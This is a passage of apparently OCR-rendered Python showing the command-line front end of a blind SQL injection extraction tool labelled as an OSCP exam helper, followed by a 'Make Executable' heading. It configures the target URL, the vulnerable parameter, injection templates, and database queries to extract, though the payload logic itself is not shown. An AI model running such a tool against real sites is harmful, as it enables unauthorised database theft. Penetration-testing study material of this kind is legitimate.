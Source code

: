 ```python
    print(eng.extract(ns.query, ns.maxlen))

def main():
    ap = argparse.ArgumentParser(description="OSCP manual SQLi helper (boolean/time blind)")
    ap.add_argument("--url", default=URL)
    ap.add_argument("--method", default=METHOD, choices=["GET","POST"])
    ap.add_argument("--param", default=VULN_PARAM)
    ap.add_argument("--base", default=BASE_VALUE)
    ap.add_argument("--template", default=TEMPLATE)
    ap.add_argument("--true-string", default=TRUE_STRING)
    ap.add_argument("--false-string", default=FALSE_STRING)
    ap.add_argument("--true-status", type=int, default=TRUE_STATUS)
    ap.add_argument("--min-delta-len", type=int, default=MIN_DELTA_LEN)
    ap.add_argument("--time-threshold", type=float, default=TIME_THRESHOLD)
    ap.add_argument("--timeout", type=float, default=TIMEOUT)
    ap.add_argument("--header", action="append", default=[])
    ap.add_argument("--cookie", action="append", default=[])
    ap.add_argument("--proxy")
    ap.add_argument("--query", default="database()")
    ap.add_argument("--maxlen", type=int, default=64)
    ap.add_argument("--action", choices=["length","extract","char"], default="extract")
    ap.add_argument("--pos", type=int, default=1)
    ap.add_argument("--test-secret")
    args = ap.parse_args()

    ind = Indicator(args.true_string, args.false_string, args.true_status, args.min_delta_len, args.time_threshold)
    eng = Engine(args.url, args.method, args.param, args.base, args.template,
                 parse_kv(args.header), parse_kv(args.cookie), args.proxy, args.timeout, ind,
                 test_secret=args.test_secret)

    if args.action == "length":
        print(eng.find_length(args.query, args.maxlen))
    elif args.action == "char":
        print(eng.extract_char(args.query, args.pos))
    else:
        print(eng.extract(args.query, args.maxlen))

if __name__ == "__main__":
    try:
        if len(sys.argv)==1:
            wizard()
        else:
            main()
    except KeyboardInterrupt:
        sys.exit(130)
```


### Make Executable
